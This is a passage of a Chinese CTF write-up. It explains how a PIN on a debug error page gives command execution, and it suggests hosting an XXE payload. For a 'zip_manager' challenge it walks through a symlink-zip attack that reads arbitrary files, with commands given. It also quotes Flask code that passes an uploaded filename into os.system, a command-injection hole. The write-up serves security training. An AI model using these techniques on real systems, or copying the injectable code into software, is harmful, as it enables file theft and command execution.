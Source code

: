 然后进入报错页面输入 PIN Code

![image-20230930154731225](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202311021207096.png)

直接执行 `/readflag` 命令拿到 flag

![image-20230930154844781](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202311021207844.png)

这题不知道为啥做出来的人很少, 其实也不难

如果自己没有服务器放 xxe payload 的话可以借助一些免费的对象存储, 例如腾讯云的 COS 和阿里云的 OSS 服务, 或者用 ngrok 等工具将本机映射到公网也行

### zip_manager

题目实现了在线解压缩 zip 文件的功能, 但是不能进行目录穿越

这里有两种利用方式: zip 软链接和命令注入

先讲第一种

众所周知 Linux 存在软链接这一功能, 而 zip 支持压缩软链接, 程序又是用 unzip 命令进行解压缩, 因此会存在这个漏洞 (相比之下如果使用 Python 的 zipfile 库进行解压缩, 就不会存在这个问题)

```bash
ln -s / test
zip -y test.zip test
```

上传后访问 `http://127.0.0.1:50033/test/test/`

![image-20230930160801834](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202311021207518.png)

然后直接下载 flag 即可

再看第二种

```python
@app.route('/unzip', methods=['POST'])
def unzip():
    f = request.files.get('file')
    if not f.filename.endswith('.zip'):
        return redirect('/')

    user_dir = os.path.join('./uploads', md5(request.remote_addr))
    if not os.path.exists(user_dir):
        os.mkdir(user_dir)

    zip_path = os.path.join(user_dir, f.filename)
    dest_path = os.path.join(user_dir, f.filename[:-4])
    f.save(zip_path)

    os.system('unzip -o {} -d {}'.format(zip_path, dest_path))
    return redirect('/')
```

调用 os.system 执行 unzip 命令, 但是路径是直接拼接过去的, 而 zip 的文件名又可控, 这里存在一个很明显的命令注入
